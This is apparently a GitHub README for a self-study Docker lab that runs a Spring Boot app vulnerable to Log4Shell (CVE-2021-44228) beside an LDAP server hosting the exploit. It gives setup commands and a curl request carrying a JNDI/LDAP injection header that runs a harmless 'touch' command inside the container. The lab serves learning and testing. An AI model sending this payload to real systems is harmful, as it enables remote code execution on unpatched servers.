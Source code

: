 # log4shell-docker-test

Docker Self-Study and Log4Shell sample vulnerable application (CVE-2021-44228)

This repository contains a Spring Boot web application vulnerable to CVE-2021-44228, nicknamed [Log4Shell](https://www.lunasec.io/docs/blog/log4j-zero-day/).
It is meant as a newbie study into the ease of Docker, with a non-trivial example like Log4Shell.
Therefore, most of the prior art is taken from Cygenta's demo https://www.cygenta.co.uk/post/your-own-log4shell-demo for study and tweaking.


## Background of Log4Shell

Log4Shell is a major vulnerability in Log4Java 1 and 2 due to the design of very powerful JNDI "features" which belong to a more trusting era :)
In short, log4j allows JNDI commands to be embedded and parsed in log statements, and by chaining a secondary vector such as another old favourite, LDAP in this example, a Java object can be loaded from the foreign LDAP service into the target which has the vulnerable log4j JNDI module.

The Cygenta demo here demonstrates an OS-level command "touch" which creates a new blank file on the target Linux OS.
There is another https://github.com/mbechler/marshalsec that covers the LDAP-based exploit, and is POC'ed for Windows OS by https://github.com/many-fac3d-g0d/apache-tomcat-log4j
The Windows version runs "start calc.exe" which launches the Windows Calculator on the host OS (aka yours, if using localhost)

Both are very interesting and very scary at how easy it is.


## Setup and Configurations

Key dependency is `Log4j 2.14.1` (technically any version prior to 2.15.x will do)

Others are Java ecosystem platforms like `spring-boot-starter-log4j2 2.6.1` which contains the old `Log4j` and `JDK 1.8.0_181`.

Docker images:
1. denizenx/log4shell-vulnapp is *my* rebuild/refactor of https://github.com/christophetd/log4shell-vulnerable-app
2. cygenta/log4jldap is the LDAP service hosting the Exploit


## Running the Exploit

Run it:

1. Local network for target and LDAP host
docker network create log4jnetwork

2. Run target straight from Docker Hub
docker run --rm --network log4jnetwork --name vulnap -p 80:8080 denizenx/log4shell-vulnapp

3. Do a container check in /tmp BEFORE the exploit; you should see 3 temp files
docker exec vulnap ls /tmp

4. Run the LDAP service hosting the exploit
docker run --rm --network log4jnetwork --name log4jldapserver -p 1389:1389 -p 8888:8888 cygenta/log4jldap

5. Launch the HTTP Request to start the exploit
curl.exe 127.0.0.1:80 -H 'X-Api-Version: ${jndi:ldap://log4jldapserver:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9DeWdlbnRhRGVtbw==}'

6. Do the container check in /tmp AFTER the exploit; you should see the CYGENTA addition
docker exec vulnap ls /tmp


## Build it yourself (you don't need any Java-related tooling):

You can pull the images, but not too useful as the meat are in the Java source.


## Self-study Observations and Way Forward

For the Docker self-study, I only recreated the vulnerable application, as it is sufficient for now to illustrate quite a bit of Docker (a different level of "Hello World!" heh)

Learning points:
- Docker: curious why the demo fails if log4jnetwork is not used, even though both are attached to the default Docket subnet (is it like an Access Point isolation for routers)
- Spring Boot: is very impressive for developers, but Docker-Compose is better for putting services together.
- Tomcat: is a b*tch* and modding its official images are a trip to Hell: I tried to put log4j into a few and ultimately wasted time on CLASSPATHing Docker *and* Tomcat
- Exploits: are scary. After this exercise I have first-hand experience on only just Log4Shell... omg
- Windows Subsystem for Linux: this tripped me up a while testing the original demo. "curl" in Powershell is a bad imitation of "curl.exe" from WSL


## References

https://www.lunasec.io/docs/blog/log4j-zero-day/
https://mbechler.github.io/2021/12/10/PSA_Log4Shell_JNDI_Injection/
https://www.cygenta.co.uk/post/your-own-log4shell-demo


## Thanks to their projects

[@christophetd](https://twitter.com/christophetd)
[@rayhan0x01](https://twitter.com/rayhan0x01)
